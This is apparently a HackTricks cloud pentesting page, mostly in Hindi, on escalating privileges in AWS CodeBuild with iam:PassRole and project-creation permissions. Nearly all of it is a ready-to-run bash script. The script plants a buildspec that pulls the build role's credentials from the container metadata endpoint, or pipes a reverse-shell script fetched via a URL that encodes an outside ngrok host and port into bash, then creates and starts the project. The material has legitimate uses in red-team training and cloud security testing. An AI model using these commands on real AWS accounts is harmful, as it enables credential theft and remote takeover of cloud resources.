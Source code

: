 # AWS - कोडबिल्ड प्रिवेस्क

<details><summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## codebuild

अधिक जानकारी प्राप्त करें:

{% content-ref url="../aws-services/aws-codebuild-enum.md" %}
[aws-codebuild-enum.md](../aws-services/aws-codebuild-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

**`iam:PassRole`, `codebuild:CreateProject`, और `codebuild:StartBuild` या `codebuild:StartBuildBatch`** अनुमतियों के साथ एक हमलावर किसी भी कोडबिल्ड IAM भूमिका की ऊंचाई को बढ़ा सकता है जो एक चल रहा हो।

{% tabs %}
{% tab title="उदाहरण1" %}
```bash
# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

JSON="{
\"name\": \"codebuild-demo-project\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
```